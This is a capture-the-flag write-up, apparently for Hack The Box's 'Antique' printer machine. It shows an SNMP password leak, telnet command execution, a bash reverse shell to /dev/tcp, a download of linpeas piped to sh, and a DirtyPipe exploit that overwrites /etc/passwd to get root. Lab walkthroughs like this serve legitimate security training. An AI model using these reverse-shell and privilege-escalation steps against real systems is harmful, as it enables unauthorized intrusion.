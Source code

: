 # Antique

### Challenge: FullPWN

### Tools: Nmap, telnet, SNMP

Starting off with our nmap scan we find ports 23 and 161.

```console
└──╼ [★]$ nmap -sC -A -p 161,23 10.129.86.189
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-11 21:36 BST
Nmap scan report for 10.129.86.189
Host is up (0.012s latency).

PORT    STATE  SERVICE VERSION
23/tcp  open   telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
161/tcp open   snmp     SNMPv1 server (public)
```

If we try logging into telnet we can see we need a password. luckily HP jetDirect has a vulnerability associated with SNMP.

```console
└──╼ [★]$ telnet 10.129.86.189
Trying 10.129.86.189...
Connected to 10.129.86.189.
Escape character is '^]'.

HP JetDirect

Password: 
Invalid password
Connection closed by foreign host.
```
Running SNMP walk shows its a printer and confirms the relation to telnet. next we change the command a bit to get back a password.

```
└──╼ [★]$ snmpwalk -v 1 -c public 10.129.86.189
iso.3.6.1.2.1 = STRING: "HTB Printer"
```

Converting that hex string gives us the password "P@ssw0rd@123!!123" now we can try loggin into telnet.

```console
└──╼ [★]$ snmpwalk -v 1 -c public 10.129.86.189 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
```
Nice now we are in as lpadmin and can get the user flag! Next we need to figure out how to privlege escalate.

```console
└──╼ [★]$ telnet 10.129.86.189
Trying 10.129.86.189...
Connected to 10.129.86.189.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
> id
Err updating configuration
> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
> 
```
```console
> exec cat user.txt
e8b892894bb1678349dd26804cc892bf
```
Set up a listner and then we can execute this bash shell to give us a pretty good shell. Now we are going to run linpeas, I had issues with the telnet shell but after creating this new shell I was able to get and run it much easier.

```console
└──╼ [★]$ nc -lvnp 6789
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::6789
Ncat: Listening on 0.0.0.0:6789
```
```console
> exec bash -c 'bash -i >& /dev/tcp/10.10.14.93/1234 0>&1'
```
We are goin to use these commands taken from the linpeas github site.

```console
sudo nc -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
```
linpeas outputs alot of information but these 3 CVE are most notable. It also mentions cups 1.6.1 but I did not go that route.

```console
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034

Vulnerable to CVE-2021-3560

Vulnerable to CVE-2022-0847
```

After testing all 3 I finally had some luck with this one. https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit The other were giving me issues and breaking my shell.

So we are going to navigate to /tmp and since we cannot get files on the system we can just copy and paste the exploit into our own file using ```echo 'EXPLOIT GOES HERE' > exploit.c```
NOTE: After copying and pasting the shell looks a little messed up and should look something like what is directly below. So just add the ```' > exploit.c``` and it will work fine.

```console
> <Restoring /etc/passwd from /tmp/passwd.bak...\\\";"
>                 "cp /tmp/passwd.bak /etc/passwd;"
>                 "echo \\\"Done! Popping shell... (run commands now)\\\";"
>                 "/bin/sh;"
>             "\" root"};
>         execv("/bin/sh", argv);
> 
>         printf("system() function call seems to have failed :(\n");
> return EXIT_SUCCESS;
> ' > exploit.c
```

I confirm the file is created.

```console
lp@antique:/tmp$ ls
ls
exp
exp.c
exploit.c
f
passwd.bak
solve.py
systemd-private-c5358880a0c8457890ce1682cb985ba6-systemd-logind.service-8gv78i
systemd-private-c5358880a0c8457890ce1682cb985ba6-systemd-timesyncd.service-tXY3Ah
tmux-7
vmware-root_872-2697532841
```
Then I compile and run it.

```console
lp@antique:/tmp$ gcc exploit.c -o exploit
gcc exploit.c -o exploit
lp@antique:/tmp$ ./exploit
./exploit
Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "aaron"...
system() function call seems to have failed :(
lp@antique:/tmp$ su root
su root
Password: aaron
```

The exploit works and we get the flag!!!

```console
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
3573f881d294e079a4d1141e1e8c1626
```

This is not the only method. I'm sure the other CVE's could have worked and The Cups 1.6.1 read file from root exploit is also confirmed to work. Also there was another version of the same CVE that I used that nearly worked but it wanted me to input a password that I did not have. Luckily I saw this one that came with a password.

GG!
